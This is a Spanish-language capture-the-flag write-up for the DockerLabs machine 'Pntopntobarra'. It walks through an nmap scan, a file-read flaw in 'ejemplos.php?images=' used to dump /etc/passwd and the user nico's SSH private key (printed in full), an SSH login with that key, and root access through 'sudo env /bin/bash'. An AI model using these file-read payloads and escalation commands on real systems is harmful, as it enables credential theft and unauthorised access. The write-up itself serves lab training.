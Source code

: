 ```yaml
---
icon: flag
---
```


# Pntopntobarra DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip pntopntobarra.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh pntopntobarra.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 13:52 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 2e:4a:72:a0:b2:40:3a:36:99:c9:2d:a7:62:61:16:e7 (ECDSA)
|_  256 7c:7d:78:7a:20:2b:d0:75:92:26:1b:41:3c:ca:79:3c (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-title: Advertencia: LeFvIrus
|_http-server-header: Apache/2.4.61 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.18 seconds
```

Si entramos a la pagina, veremos una simulacion de una infeccion de un virus, pero si le damos al boton llamado `ejemplo de computadoras infectadas` podremos ver en la `URL` que es un archiv `.php` y que lleva un parametro llamado `images` sujeto a el, probaremos a ver si es vulnerable a la lectura de archivos del sistema.

```
URL = http://<IP>/ejemplos.php?images=./ejemplo1.png
```

Ahora probaremos a meter lo siguiente:

```
URL = http://<IP>/ejemplos.php?images=/etc/passwd
```

Y veremos lo siguiente:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
nico:x:1000:1000:,,,:/home/nico:/bin/bash
```

Vemos que funciona, tambien podremos ver que hay un usuario llamado `nico`, si probamos a tirarle un ataque de fuerza bruta veremos que no funciona, por lo que vamos a ver si con dicha vulnerabilidad le sacamos alguna clave privada como por ejemplo el `id_rsa`.

## Escalate user nico

```
URL = view-source:http://<IP>/ejemplos.php?images=/home/nico/.ssh/id_rsa
```

Info:

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA07BRWc6X8Yz+VwO1l5UAqcFE5K+1yQ9QxFBrt8DzyC9x7o0tluCk
4f4gObHgatf/tXX/z8oGKYnAY48/vctJz//3M9phYgcFhoDOs+F3NgyYZ7oZN/TeEgTlql
Z4QGyjn5akiLmDwSTqEqd5Tla+KnNVCEHO2MpoDTWJB4uI6TdHt3iDX19jszJ+r9BNZODk
O7RUkL72sq2pAHLfhlPlaDdH50cd/1bNOkm45U4JmXxTrWNh4AmaZdHGIPiQpvRUJDXack
9tfWaxXBRG95YHh1DMg8LZujKkk35XbesoMBK+eh2mBdISDxR7+XPTyiyGAJ0Qts2TjIfm
2Agqzwbjl1uPffyMrjS2t5gzKcWuPDXWKXmy0rF6ZEWw2hKdC3oY/rxM+zg5B+cnmCTja5
5AgpYgnxN7PD4BLqGFP5Nu1bZ3txduoDlEROHkmsIAJMwy6JNRg7qNL11m2S8YuxR5Iyi5
gpgnD3PQxEepQ0L/7xrUELUvf4jnaLnNBiFaDob7AAAFiNB8ulDQfLpQAAAAB3NzaC1yc2
EAAAGBANOwUVnOl/GM/lcDtZeVAKnBROSvtckPUMRQa7fA88gvce6NLZbgpOH+IDmx4GrX
/7V1/8/KBimJwGOPP73LSc//9zPaYWIHBYaAzrPhdzYMmGe6GTf03hIE5apWeEBso5+WpI
i5g8Ek6hKneU5WvipzVQhBztjKaA01iQeLiOk3R7d4g19fY7Myfq/QTWTg5Du0VJC+9rKt
qQBy34ZT5Wg3R+dHHf9WzTpJuOVOCZl8U61jYeAJmmXRxiD4kKb0VCQ12nJPbX1msVwURv
eWB4dQzIPC2boypJN+V23rKDASvnodpgXSEg8Ue/lz08oshgCdELbNk4yH5tgIKs8G45db
j338jK40treYMynFrjw11il5stKxemRFsNoSnQt6GP68TPs4OQfnJ5gk42ueQIKWIJ8Tez
w+AS6hhT+TbtW2d7cXbqA5RETh5JrCACTMMuiTUYO6jS9dZtkvGLsUeSMouYKYJw9z0MRH
qUNC/+8a1BC1L3+I52i5zQYhWg6G+wAAAAMBAAEAAAGAESvILYS4hnttVhmS7UzE1QA8Wm
B2WmzHnGT5l9oq7B4NG9CP1iE6vqoiawumrIQA1fNQYMZ+YXgvBuRjwz1uK1UT9DzOkWkI
ZbSlD6pGRTgYVLGfwg42xTdoebyx3GfzjcpmZkDGEzCvW/wBtv0KR987EoRkBunELu4cw2
PqIyC8zIEWBvJx3+NEq3Y2EOy9Fqq2AVe8Ixo7DzJCN18uyJlTV8tI/6FG3GeGe/MsjCqt
ju70zXt57rBpZdtDwIco9kjkhfoF9HQrfRTDlZFwvsPDs1gVpLERXybguKAp2oxZ/CdzoZ
WbYDasDAoXNgbOADgkgc6TWslXinpt4SdGiObbZWtL9eb1KuggZL1NMq4d/MphApMA+gxt
X1aMEV+fiQ0UPNd9WIJWhBiyu4Q+GpeavHeDULGsObuDyfEQKtzbxoX3cTscQ48qAI+y+F
jVELxly8iGsmLTZGGwlhlhhbYg5Tuf2hsPEOXZAzjxgYrTwBm/fB6esLPGtR1pV5nhAAAA
wHgMkNkzMNwCHO0Lme3p3As9+9yXfOiNmtbgcVIECMLQ97r8TFvqQMO28gxbBNzvkCDVEq
5yi0ErDFxPZJdqFLyRGfDCLyeggUKXr6rVXByo3CQwUgL7U06nusTNzczibWTDxQNbVhJS
5o68k1ltgYarJFRPLxQThj9vyyTZk5jLWuHpmG7hEM0krA+9PK9OVI9McvH4q+rutLFDG2
GdQcJd1fz3ATJWyHDOA6/0tHZKIKst4925nJKC/c5A6SzA1QAAAMEA85OwFy2js+ZdDiNg
AEGnJfFRu7bC/cE0kNi4HnVBA3mjz1OP4NE/OudX6v0NObvw2ZgoUTAxAduQ+sCHwyI73n
XM31TeyMRbAfpCZ92xRsllCFS2zLmpy8jzPu1BzPGDI0UoWQs7VPeXm13CexexGcmOXxuv
9lqIIv+9GFaB5TxS6K7yaySgrvI3BUmvqGCx4fnWNf/6yrZ1raObcb3yGvqnrCexDySYq3
hXvIai+6lKnPeetrE5LshmcXdJwUIFAAAAwQDefEaIqWZ3JcxAD04Z8/O6uhZ3WOYoLuHX
fJlc5trofrBQL5xa4P53ngHUxA4F2DbQCqbPaSCZFirq3IUEUzzOZ5Npvuur5VO41EtxTp
CC2BZ0iK2UIBhk/Q62gLCU2EnuHtu6dbLEeuDF6tIlKXGbw0Lib54wRFHHQyETjJI3UGjV
QkAljDAS+mPSQgQ0Mdc/KUBZ8e3AE39dxKcYs5WFyfiiZ72TJJekOiJICcOAPLH0iP+lru
ayyxi3hh3t9P8AAAARbmljb0AzYTQ4YjEyYjU3YTIBAg==
-----END OPENSSH PRIVATE KEY-----
```

Y vemos que funciona correctamente, por lo que nos metemos mediante la `clave privada` del usuario `nico`.

## SSH

```shell
nano id_rsa

#Dentro del nano
<CONTENT_ID_RSA>
```

Lo guardamos y el ponemos los permisos adecuados.

```shell
chmod 600 id_rsa
```

Y ahora nos conectamos con dicha clave:

```shell
ssh -i id_rsa nico@<IP>
```

Y con esto ya estaremos dentro con dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for nico on 0806c600fecc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User nico may run the following commands on 0806c600fecc:
    (ALL) NOPASSWD: /bin/env
```

Veremos que podemos ejecutar el binario `env` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo env /bin/bash
```

Con esto veremos que somos `root`, por lo que habremos terminado la maquina.
